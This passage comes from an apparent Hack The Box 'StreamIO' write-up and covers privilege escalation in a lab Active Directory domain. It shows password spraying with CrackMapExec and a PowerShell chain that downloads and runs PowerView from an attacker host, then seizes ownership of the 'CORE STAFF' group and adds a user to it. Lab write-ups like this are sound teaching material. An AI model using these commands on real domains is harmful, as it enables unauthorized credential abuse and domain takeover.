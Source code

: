 However, after trying the `JDgodd:password@12` credentials, it did not work...

# Privilege Escalation

Privilege Escalation consists of techniques that adversaries use to gain higher-level permissions on a system or network. Adversaries can often enter and explore a network with unprivileged access but require elevated permissions to follow through on their objectives. Common approaches are to take advantage of system weaknesses, misconfigurations, and vulnerabilities.

## Password Spraying

As stated by [MITRE](https://attack.mitre.org/techniques/T1110/003/), adversaries may use a single or small list of commonly used passwords against many different accounts to attempt to acquire valid account credentials. Password spraying uses one password, or a small list of commonly used passwords, that may match the complexity policy of the domain.

Since we have a list of usernames and passwords, we can use [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), to see if we can get another account.

```bash
$ crackmapexec smb streamio.htb -u users.txt -p pass.txt               

...[snip]...

SMB         streamio.htb    445    DC               [+] streamIO.htb\JDgodd:JDg0dd1s@d0p3cr3@t0r 
```

Yay! We found valid credentials for **JDgodd**! Now, we can try to abuse its current privileges to read LAPS password.

## Owning the domain

Here, the user **JDGODD@STREAMIO.HTB** has the ability to modify the owner of the group **CORE STAFF@STREAMIO.HTB**. It means that we can take over this group and add **JDgodd** in it.

This can easily be done using [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

```bash
*Evil-WinRM* PS C:\Users\nikk37\Documents> IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.101/PowerView.ps1')
*Evil-WinRM* PS C:\Users\nikk37\Documents> $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\nikk37\Documents> $Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword)
*Evil-WinRM* PS C:\Users\nikk37\Documents> Set-DomainObjectOwner -Identity 'CORE STAFF' -OwnerIdentity JDgodd -Cred $cred
*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainObjectAcl -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Cred $cred -Rights All
*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'JDgodd' -Cred $cred
*Evil-WinRM* PS C:\Users\nikk37\Documents> net group 'CORE STAFF'
Group name     CORE STAFF
Comment

Members

-------------------------------------------------------------------------------
JDgodd
The command completed successfully.

*Evil-WinRM* PS C:\Users\nikk37\Documents> 
```
